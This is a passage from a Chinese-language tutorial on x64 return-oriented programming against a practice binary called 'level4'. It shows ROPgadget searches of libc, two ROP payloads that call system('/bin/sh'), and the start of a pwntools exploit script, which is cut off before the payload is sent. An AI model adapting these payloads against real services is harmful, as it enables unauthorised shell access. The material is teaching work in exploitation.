 结果并不理想，因为程序比较小，在目标程序中并不能找到`pop rdi; ret`这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。

```
#!bash
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000001f27d : pop rdi ; pop rbp ; ret
0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
0x0000000000073033 : pop rdi ; pop rbx ; ret
0x0000000000022a12 : pop rdi ; ret
```

这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。

```
#!bash
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。

```
#!bash
$ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
0x000000000012da1d : call qword ptr [rdi]
0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
0x00000000000f1f04 : call rdi
0x00000000000f4739 : pop rax ; pop rdi ; call rax
0x00000000000f473a : pop rdi ; call rax
```

通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax`也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。

```
#!python
payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
```

所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)


```